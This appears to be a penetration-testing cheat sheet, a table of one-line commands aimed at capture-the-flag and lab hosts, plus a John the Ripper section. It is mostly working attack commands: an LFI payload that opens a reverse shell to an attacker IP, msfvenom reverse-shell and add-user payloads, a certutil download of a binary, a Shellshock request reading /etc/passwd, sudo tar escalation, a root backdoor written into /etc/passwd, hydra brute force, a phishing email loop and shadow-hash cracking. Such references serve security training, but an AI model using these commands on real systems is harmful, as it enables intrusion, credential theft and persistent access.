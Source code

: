 | Escape lshell | 							echo os.system('/bin/bash') |
| Show mysql version from client | 			SHOW VARIABLES LIKE "%version%"; |
| Find what's using port 80 on windows | 	netstat -aon \| findstr :80 |
| LFI to shell | 							curl -X POST --data "<?php echo shell_exec(' /bin/bash -i >& /dev/tcp/192.168.119.223/8080 0>&1 ') ?>" "http://10.11.1.35/section.php?page=php://input" -k -v |
| Interact with MSSQL | 					sqsh -S 10.11.1.111:1433 -U sa -P sqls3rv3r -G 8.0 |
| Crack downloaded SAM and SYSTEM files | 	samdump2 |
| If tomcat is running, try this | 			msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.223 LPORT=80 -f raw > shell.jsp |
| Sherlock usage | 							powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}" |
| Reverse PowerShell | 						powershell.exe -exec bypass -Command "& {Import-Module .\Invoke-PowerShellTcp.ps1}" |
| Shellshock usage | 						curl -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd " http://10.10.10.56/cgi-bin/user.sh |
| Scan cgi-bin for shellshock | 			gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi |
| Brute force post request via hydra | 		hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect" |
| DNS zone transfer | 						dig axfr @10.10.10.13 cronos.htb |
| If ssh'ing into rbash | 					ssh mindy@10.10.10.51 -t "bash --noprofile" |
| Expand tty rows and columns | 			stty cols 185 AND stty rows 49 |
| Create a binary without meterpreter | 	msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.223 LPORT=443 -f exe > binary.exe |
| Download to Windows without powershell | 	certutil -urlcache -split -f http://192.168.119.223/binary.exe C:\\users\\public\\binary.exe |
| Crack zip file password | 				fcrackzip -uDp /usr/share/wordlists/rockyou.txt backup.zip |
| Create user through msfvenom payload | 	msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe |
| SSH Private key usage | 					chmod 600 THEN DO ssh -i username.key username@10.10.10.79 |
| If tar is available as sudo, run as other user |	sudo -u onuma /bin/tar cf /dev/null /pwnd --checkpoint=1 --checkpoint-action=exec=/bin/bash |
| Find file by name | 						find / -name *backuperer* 2>/dev/null |
| Run file with JuicyPotato | 				JuicyPotato.exe -l 1337 -p c:\inetpub\wwwroot\binary.exe -t * |
| Echo root2:evil into passwd file | 		echo 'echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd' > test.txt |
| Forward Windows port with plink | 		cmd.exe /c echo y \| plink.exe -ssh -l kali -pw password -R 192.168.119.223:8888:127.0.0.1:8888 kali@192.168.119.223 |
| Mount NFS to local temp directory | 		sudo mount -t nfs 10.10.10.180:/site_backups ./temp -o nolock |
| Find subdomains | 						./ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://sneakycorp.htb/ -H "Host: FUZZ.sneakycorp.htb" -fs 185 |
| Send email to everyone | 					while read mail; do swaks --to $mail --from it@sneakymailer.htb --header "Subject: Credentials / Errors" --body "goto http://10.10.14.4/" --server 10.10.10.197; done < mails.txt	 |
| wpscan with ssl | 						wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate t --enumerate u --enumerate p |


## John the Ripper
### Crack shadow hash with john
1. sudo unshadow passwd.txt shadow.txt > passwords.txt
2. sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
